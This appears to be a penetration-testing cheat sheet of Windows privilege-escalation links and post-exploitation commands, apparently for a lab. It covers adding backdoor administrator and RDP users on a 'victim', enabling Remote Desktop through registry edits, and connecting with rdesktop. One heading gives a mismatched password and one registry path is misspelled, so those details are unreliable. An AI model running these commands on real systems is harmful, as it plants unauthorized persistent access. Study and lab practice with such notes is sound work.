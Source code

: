 http://www.fuzzysecurity.com/tutorials/16.html

https://www.youtube.com/watch?v=kMG8IsCohHA

https://www.youtube.com/watch?v=PC_iMqiuIRQ

https://github.com/GDSSecurity/Windows-Exploit-Suggester     

http://hackingandsecurity.blogspot.ca/2017/09/oscp-windows-priviledge-escalation.html

https://blog.netspi.com/windows-privilege-escalation-part-1-local-administrator-privileges/

http://www.hackingarticles.in/7-ways-get-admin-access-remote-windows-pc-bypass-privilege-escalation/

## Quick Commands

#### Windows add user

net user hacker Passw0rd123! /add

net user joe Passw0rd123! /add

#### Create a new local (to the victim) user called ‘hacker’ with the password of ‘hacker’

net localgroup administrators /add hacker

Or

net localgroup administrators hacker /add

net localgroup administrators joe /add

#### add user to remote desktop users

NET LOCALGROUP "Remote Desktop Users" hacker /ADD

#### delete users

net user hacker /delete


### rdesktop

rdesktop -u hacker -p Passw0rd123! 10.11.1.31

rdesktop -u hacker -p Passw0rd123! 10.11.1.49


#### allow RDP from command line

http://www.hacking-tutorial.com/tips-and-trick/how-to-enable-remote-desktop-using-command-prompt/

reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f 

Reg add “\\bethany\HKLM\SYSTEM\CurentControlSet\Control\Terminal Server”  /v fDenyTSConnections /t REG_DWORD /d 0 /f
